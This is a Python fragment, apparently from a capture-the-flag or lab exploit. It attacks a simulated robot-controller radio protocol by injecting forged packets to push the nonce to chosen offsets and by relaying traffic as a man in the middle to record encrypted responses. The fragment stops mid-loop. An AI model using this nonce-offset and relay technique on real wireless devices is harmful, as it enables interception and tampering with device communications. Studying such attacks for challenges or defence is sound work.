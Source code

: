 ```python
### PART 3 -> SEND SECURE_DATA_REQUEST N - 1 TIMES, THEN SEND SECURE_DATA, THEN SEND SECURE_DATA_REQUEST, THEN RECORD SECURE_DATA_RESPONSE

# Offset the nonce to N and load secure_data_response
async def offset(start, n, direction):
    global CONTROLLER 
    
    if n % 2 != 0:
        print('[FATAL ERROR] Target offset not a multiple of 2')
        return

    for i in range(start, n):
        await inject_packet('secure_data_request', i, CONTROLLER, None)

    expected = n - start + 1 + (start // 2)
    await inject_packet('secure_data', n, CONTROLLER, None)
    await inject_packet('secure_data_response', n, ROBOT, None)
    await inject_packet('secure_data_request', n + 1, CONTROLLER, None)
    
    print ("Waiting for final response...")
    
    while True:
        messages = receive_radio_messages()
        
        for msg in messages:
            print_pkt(msg)
            if msg['msg_type'] == 'secure_data_response':
                expected -= 1
                if expected == 0:
                    print("Received final response!")
                    secure_responses.append((msg, n + 1, direction))
                    return
        
BOUND = 40

# Record responses for [east]
async def record_east():
    global secure_responses
    global BOUND
    
    for n in range(0, BOUND, 2):
        time.sleep(1.5)
        start_robot()
        
        proxying = True
            
        while True:
            messages = receive_radio_messages()
            stop = False
            for msg in messages:  
                if proxying and msg['dst'] == ME:
                    msg['dst'] = CONTROLLER     
                    print_pkt(msg)
                    inject_radio_message(msg)
                elif msg['dst'] == ROBOT:
                    print_pkt(msg)
                    
                # We drop all messages from the robot. This is just used as a anchor point so we know that it has validated properly
                if msg['msg_type'] == 'ack_key_exchange' and msg['dst'] == ROBOT:
                    proxying = False
                    
                    # no original offset
```